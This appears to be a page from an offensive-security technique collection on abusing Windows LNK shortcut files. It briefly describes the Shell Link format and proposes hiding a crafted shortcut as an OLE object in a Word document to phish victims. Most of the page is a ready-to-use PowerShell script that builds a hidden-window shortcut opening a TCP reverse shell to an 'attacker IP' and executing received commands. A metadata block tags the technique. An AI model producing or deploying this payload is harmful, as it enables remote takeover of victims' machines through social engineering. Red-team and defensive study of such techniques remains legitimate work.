 # LNK
According to Microsoft’s documentation on [MS-SHLLINK]: Shell Link (.LNK) Binary File Format, in this format a structure is called a shell link, or shortcut, and is a data object that contains information that can be used to access another data object.
We can craft LNK files that reference useful target files such as cmd.exe or PowerShell. There is a restriction for 260 symbols in summary for LNK files when standard Windows properties form is used.

A relatively stealthy social engineering attack would be sending a crafted LNK file embedded as an OLE object in a Word Document.

## Create LNK file
With rev-shell via tcp

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("c:\lnk_tests\payload.lnk")
$Shortcut.TargetPath = "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"
$Shortcut.Arguments = '-windowstyle hidden /c $sm=(New-Object Net.Sockets.TCPClient("attacker IP",55555)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)} '
$Shortcut.Save()
```

## Tools
########
########

```meta
ttp: T1000
internal: false
requirements:
results: user, admin
description: LNK (Shell Link file) remotly/localy executing code 
```
